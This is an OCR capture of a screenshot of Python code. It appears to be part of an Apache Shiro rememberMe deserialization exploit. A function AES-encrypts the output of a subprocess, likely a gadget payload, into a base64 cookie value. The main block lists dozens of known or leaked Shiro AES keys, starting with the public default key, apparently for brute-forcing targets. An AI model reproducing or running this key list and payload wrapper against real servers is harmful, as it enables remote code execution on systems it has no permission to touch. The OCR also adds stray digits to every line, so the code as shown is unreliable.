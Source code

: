 ```
      iv   =  uuid.uuid4().bytes      2
      encryptor = AES.new(base64.b64decode(key), mode, iv)      2
      file_body = pad(popen.stdout.read())      2
      base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))      2
      return base64_ciphertext       3
if __name__ == '__main__':      3
      keylist = ['kPH+bIxk5D2deZiIxcaaaA==',      3
      'wGiHplamyXlVB11UXWol8g==',      3
      '2AvVhdsgUs0FSA3SDFAdag==',      3
      '4AvVhmFLUs0KTA3Kprsdag==',      3
      '3AvVhmFLUs0KTA3Kprsdag==',      3
      'Z3VucwAAAAAAAAAAAAAAAA==',      3
      'U3ByaW5nQmxhZGUAAAAAAA==',      3
      'wGiHplamyXlVB11UXWol8g==',      3
      'fCq+/xW488hMTCD+cmJ3aQ==',      4
      '1QWLxg+NYmxraMoxAXu/Iw==',      4
      'ZUdsaGJuSmxibVI2ZHc9PQ==',      4
      'L7RioUULEFhRyxM7a2R/Yg==',      4
      '6ZmI6I2j5Y+R5aSn5ZOlAA==',      4
      'r0e3c16IdVkouZgk1TKVMg==',      4
      '5aaC5qKm5oqA5pyvAAAAAA==',      4
      'bWluZS1hc3NldC1rZXk6QQ==',      4
      'a2VlcE9uR29pbmdBbmRGaQ==',      4
      'WcfHGU25gNnTxTlmJMeSpw==',      4
      'MTIzNDU2Nzg5MGFiY2RlZg==',      5
      '5AvVhmFLUs0KTA3Kprsdag==',      5
      '6ZmI6I2j3Y+R1aSn5BOlAA==',      5
      'SkZpbmFsQmxhZGUAAAAAAA==',      5
      '2cVtiE83c4lIrELJwKGJUw==',      5
      'fsHspZw/92PrS3XrPW+vxw==',      5
      'XTx6CKLo/SdSgub+OPHSrw==',      5
      'sHdIjUN6tzhl8xZMG3ULCQ==',      5
      'O4pdf+7e+mZe8NyxMTPJmQ==',      5
      'f/SY5TIve5WWzT4aQlABJA==',      5
      'HWrBltGvEZc14h9VpMvZWw==',      6
      'rPNqM6uKFCyaL10AK51UkQ==',      6
      'Y1JxNSPXVwMkyvES/kJGeQ==',      6
      'lT2UvDUmQwewm6mMoiw4Ig==',      6
      'MPdCMZ9urzEA50JDlDYYDg==',      6
      'xVmmoltfpb8tTceuT5R7Bw==',      6
      'c+3hFGPjbgzGdrC+MHgoRQ==',      6
      'ClLk69oNcA3m+s0jIMIkpg==',      6
      'Bf7MfkNR0axGGptozrebag==',      6
      '1tC/xrDYs8ey+sa3emtiYw==',      6
      'ZmFsYWRvLnh5ei5zaGlybw==',      7
      'cGhyYWNrY3RmREUhfiMkZA==',      7
      'IduElDUpDDXE677ZkhhKnQ==',      7
      'yeAAo1E8BOeAYfBlm4NG9Q==',      7
      'cGljYXMAAAAAAAAAAAAAAA==',      7
      '2itfW92XazYRi5ltW0M2yA==',      7
      'XgGkgqGqYrix9lI6vxcrRw==',      7
      '25BsmdYwjnfcWmnhAciDDg==',      7
      'ertVhmFLUs0KTA3Kprsdag==',      7
      '5AvVhmFLUS0ATA4Kprsdag==',      7
      's0KTA3mFLUprK4AvVhsdag==',      8
      'hBlzKg78ajaZuTE0VLzDDg==',      8
      '9FvVhtFLUs0KnA3Kprsdyg==',      8
      'd2ViUmVtZW1iZXJNZUtleQ==',      8
      'yNeUgSzL/CfiWw1GALg6Ag==',      8
      'NGk/3cQ6F5/UNPRh8LpMIg==',      8
      '4BvVhmFLUs0KTA3Kprsdag==',      8
      'kPH+bIxk5D2deZiIxcaaaA==',      8
      '4AvVhmFLUs0KTA3Kprsdag==',      8
```